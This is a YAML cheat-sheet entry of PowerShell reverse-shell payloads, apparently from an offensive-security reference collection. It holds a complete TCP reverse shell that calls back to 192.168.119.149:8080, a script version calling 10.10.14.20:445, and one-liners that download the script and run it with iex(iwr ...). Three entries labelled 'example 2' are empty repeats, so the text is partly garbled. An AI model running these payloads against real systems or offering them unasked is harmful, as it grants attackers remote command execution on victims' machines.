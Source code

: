 ```yaml
---
functions:
  shell:
    - description: Powershell reverse shell (example 1)
      code: |
        powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.149',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (script )
      code: |
        ps-shell.ps1:
        $ip="10.10.14.20";$port=445;$client = New-Object System.Net.Sockets.TCPClient($ip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        From cmd.exe context:
        start /B powershell -c "iex(iwr http://10.10.14.20/ps-shell.ps1)"
        Or:
        iex(iwr http://10.10.14.20/ps-shell.ps1)
---
```

